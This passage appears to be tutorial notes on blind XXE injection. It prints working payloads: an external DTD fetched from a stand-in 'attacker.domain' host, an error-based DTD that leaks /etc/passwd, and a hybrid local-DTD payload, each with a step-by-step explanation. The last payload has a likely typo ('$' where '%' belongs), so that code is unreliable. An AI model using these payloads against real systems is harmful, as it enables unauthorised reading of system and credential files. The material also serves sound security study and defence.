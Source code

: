 - and finally attacker need to submit the payload to the `xxe vuln` application.
```js
<!DOCTYPE root [<!ENTITY % dk SYSTEM "http://attacker.domain/malicious.dtd"> %dk; ]>
```

## Exploiting XXE to retrieve data via error messages.
- alternative approach to exploiting `blind XXE` is to trigger an XML parsing error where the error message contains the sensitive data that you wish to retrieve.
- this will be effective if the application returns the resulting error message within its response.
```js
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```
this DTD carries out the following
1. Defines an XML Parameter entity called `file`, containing the contents of the `/etc/passwd` file.
2. defines an XML parameter entity called `eval`, containing a dynamic declaration of another XML parameter entity called `error` . the error entity will be evaluated by loading a nonexistent file whose name contains the value of the file entity.
3. Uses the eval entity which causes declaration of the error entity to be performed.
4. uses the error entity, so that its value is evaluated by attempting to load the nonexistent file, resulting in an error message containing the name of the nonexistent file, which is the contents of the `/etc/passwd` file.
5. for exploitation put that `malicious.dtd` file to exploit server and then request to that file using `XXE injection ` and it gives error with output of `%file` entity.
invoking malicious `external DTD` will result in an error message containing the contents of the file /etc/passwd

## Exploiting Blind XXE by repurposing a local DTD
- preceding technique works fine with external DTD but normally won't work with internal DTD, 
- what to do if in blind xxe the out-of-band intraction is blocked and we cant load from the `External DTD`  from the remote location. 
- in this situation, trigger error message containing sensitive data, due to loophole in XML language specification. 
- if document's DTD uses `hybrid` of internal and external DTD declaration, then the internal DTD can reduce entities that are declared in the external DTD. 
- when this happens, the restriction on using an XML parameter entity within the definition of another parameter entity is relaxed.
- [full-explain-this attack](https://portswigger.net/web-security/xxe/blind)
**Example** if DTD file on the server at location /usr/local/app/schema.dtd, and it defines entity called `custom_entity `, an attacker can trigger an XML parsing error message containing contents of /etc/passwd by submitting `Hybrid DTD`
```js
<!DOCTYPE root [<!ENTITY % local_dtd SYSTEM "file:///usr/local/app/schema.dtd">
<!ENTITY $ custom_entity '<!ENTITY &#x25; file SYSTEM "file:///etc/passwd"> 
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27; file:///invalid/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;'>
%local_dtd;
]>
```
